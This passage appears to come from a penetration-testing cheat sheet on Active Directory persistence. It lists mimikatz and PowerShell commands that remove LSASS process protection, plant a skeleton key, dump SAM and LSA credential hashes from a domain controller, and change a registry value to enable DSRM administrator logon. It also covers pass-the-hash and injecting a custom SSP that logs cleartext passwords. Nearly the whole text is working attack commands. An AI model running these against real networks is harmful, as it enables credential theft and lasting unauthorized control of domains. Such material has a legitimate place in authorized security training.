 
    mimikatz # privilege::debug
    mimikatz # !+
    mimikatz # !processprotect /process:lsass.exe /remove
    mimikatz # misc::skeleton
    mimikatz # !-
    ```

### DSRM Account

    ```powershell
    # Directory Services Restore Mode (DSRM), is the local Administrator whose password is configured as SafeModePassword. it is stored in SAM file and not ntds.dat file 

    # Dump the local account credentials from sam file (having local DSRM account) 
    Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computer us-dc

    # Adminsitrator hash for DA stored in ntds.dat file can be fetched using below command
    Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername us-dc

    # Login is not allowed by DSRM Account, requires regitry changes
    New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD

    # Login using PTH
    Invoke-Mimikatz -Command '"sekurlsa::pth /domain:us-dc /user:Administrator /ntlm:acxs /run"powershell.exe"'

    ls \\us-dc\c$
    Enter-PSSession -ComputerName us-dc -Authentication Negotiate
    ```

### Custom SSP

    ```powershell
    # Custom SSP, once injected in the lsass memory would log the username and password in clear text  
    Invoke-Mimikatz -Command '"misc::memssp"'

    # Logs are stored to
    C:\Windows\system32\kiwissp.log
    ```

